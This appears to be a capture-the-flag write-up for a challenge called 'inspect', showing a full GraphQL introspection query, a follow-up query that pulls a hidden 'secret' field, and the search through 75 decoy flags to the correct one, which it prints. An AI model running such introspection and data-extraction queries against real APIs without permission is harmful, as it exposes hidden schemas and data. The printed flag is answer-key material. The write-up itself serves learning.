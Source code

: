 Reference : https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/

_Introspection is the ability to query which resources are available in the current API schema. Given the API, via introspection, we can see the queries, types, fields, and directives it supports._

GraphQL introspection payload:
```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

response:

<img width="897" alt="image" src="https://user-images.githubusercontent.com/79740895/224526602-52da26c6-020d-48af-a460-421d6e0107f3.png">

This secret field looks interesting let's extract this.

payload:
```
{
  secret {
    text
  }
}
```

response:

<img width="628" alt="image" src="https://user-images.githubusercontent.com/79740895/224526694-ede5c243-723e-496f-8fe7-bce808c170cb.png">

when I saw the flag I immediately tried to submit it, but it was wrong then I realised that there are multiple flags.

75 in total.

first I thought it is rabbit hole, but I went through every flag and found this:

<img width="283" alt="image" src="https://user-images.githubusercontent.com/79740895/224526864-605393f7-34fc-4ce6-8bb3-2c8e371cd3e1.png">

this makes sense `inspect` is challenge name and `graphql` is endpoint.

`flag: GLUG{1nsp3c7_1n_gr4phq6}`

This is correct one.

Happy Hacking

---

